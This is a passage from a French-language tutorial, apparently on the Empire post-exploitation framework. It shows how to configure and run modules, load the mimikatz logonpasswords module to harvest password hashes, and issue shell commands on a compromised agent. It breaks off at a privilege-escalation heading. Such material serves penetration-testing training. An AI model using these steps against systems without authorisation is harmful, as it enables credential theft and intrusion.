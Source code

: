 #### 2. Configurer et Exécuter un Module

1. **Afficher les options du module** :
   *   Commande :

       ```bash
       info
       ```
   * **Explication** : Affiche les paramètres du module.
2. **Configurer les options** :
   *   Exemple :

       ```bash
       set Target <agent_name>
       execute
       ```

***

### 📋 Étape 4 : Exemples Pratiques

***

#### 1. Collecter des Hashes de Mots de Passe

1. **Charger le module** :
   *   Commande :

       ```bash
       usemodule powershell/credentials/mimikatz/logonpasswords
       ```
2. **Configurer et exécuter** :
   * Configurez l’agent cible et exécutez.

***

#### 2. Exécuter des Commandes sur un Système Compromis

1. **Sélectionner un agent actif** :
   *   Commande :

       ```bash
       interact <agent_name>
       ```
2. **Envoyer une commande** :
   *   Exemple :

       ```bash
       shell whoami
       ```
   * **Explication** : Exécute la commande `whoami` sur le système compromis.

***

#### 3. Escalader les Privilèges
